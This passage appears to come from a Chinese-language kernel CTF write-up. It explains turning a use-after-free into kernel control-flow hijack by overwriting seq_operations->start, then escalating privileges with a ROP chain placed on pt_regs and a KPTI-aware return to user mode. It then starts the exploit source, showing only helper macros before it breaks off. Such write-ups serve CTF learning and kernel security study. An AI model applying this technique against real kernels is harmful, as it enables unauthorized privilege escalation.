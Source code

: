 ### 解法：UAF + seq_operations + pt_regs + ROP

既然我们有一个直接的大小不限的 UAF 漏洞，那么解法就是多种多样的了。我们首先考虑如何劫持内核执行流，我们不难想到的是各种动态分配的函数表，例如 **seq\_operations** 这个结构体便从 `kmalloc-32` 中动态分配：

- 当我们打开一个 stat 文件时（如 `/proc/self/stat` ）便会在内核空间中分配一个 seq\_operations 结构体，该结构体定义于 `/include/linux/seq_file.h` 当中，只定义了四个函数指针，如下：

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

当我们 read 一个 stat 文件时，内核会调用其 proc\_ops 的 `proc_read_iter` 指针，其默认值为 `seq_read_iter()` 函数，定义于 `fs/seq_file.c` 中，注意到有如下逻辑：

```c
ssize_t seq_read_iter(struct kiocb *iocb, struct iov_iter *iter)
{
	struct seq_file *m = iocb->ki_filp->private_data;
	//...
	p = m->op->start(m, &m->index);
	//...
```

即其会调用 seq_operations 中的 start 函数指针，那么**我们只需要控制 seq\_operations->start 后再读取对应 stat 文件便能控制内核执行流** 。

控制了内核执行流之后，我们来看如何进一步进行提权，不难想到的是我们可以在 `pt_regs` 上布置 ROP chain，之后直接使用形如 `add rsp; ret` 的 gadget 便能完成 ROP。需要注意的是 KPTI 是开启的，因此我们最后需要使用 `swapgs_restore_regs_and_return_to_usermode` 函数返回用户态。

最终的 exp 如下：

```c
/**
 * Copyright (c) 2021 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

void err_exit(char *msg)
{
    printf(ERROR_MSG("[x] Error at: ") "%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}
```